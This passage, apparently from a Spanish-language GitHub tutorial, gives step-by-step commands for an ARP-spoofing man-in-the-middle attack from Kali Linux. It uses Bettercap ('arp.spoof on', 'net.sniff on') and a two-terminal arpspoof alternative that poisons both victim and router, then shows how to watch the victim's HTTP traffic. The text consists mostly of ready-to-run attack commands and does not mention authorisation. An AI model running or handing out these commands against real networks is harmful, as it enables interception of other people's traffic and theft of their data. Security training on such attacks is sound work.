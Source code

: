 Supón que es `eth0`. Inicia Bettercap:

```bash
sudo bettercap -iface eth0
```

##### 🧠 Dentro de Bettercap

Activa escaneo de red:

```
net.probe on
```

Ver IPs activas:

```
net.show
```

Suponiendo que:

- IP víctima: `192.168.1.100`
- IP del router: `192.168.1.1`

##### 🧬 Configura y activa ARP Spoofing:

```bash
set arp.spoof.targets 192.168.1.100
arp.spoof on
net.sniff on
```

¡Listo! Ahora todo lo que haga la víctima pasará por tu máquina Kali.

---

#### 🧪 Cómo probar que funciona

1. En la máquina víctima, abre un navegador y entra a sitios HTTP (como [http://neverssl.com](http://neverssl.com)).
2. En Kali, verás las peticiones y datos pasando por ti.

---

#### 🐍 Alternativa con `arpspoof`

#### Abre dos terminales en Kali

##### Terminal 1: Engaña a la víctima

```bash
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

##### Terminal 2: Engaña al router

```bash
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

---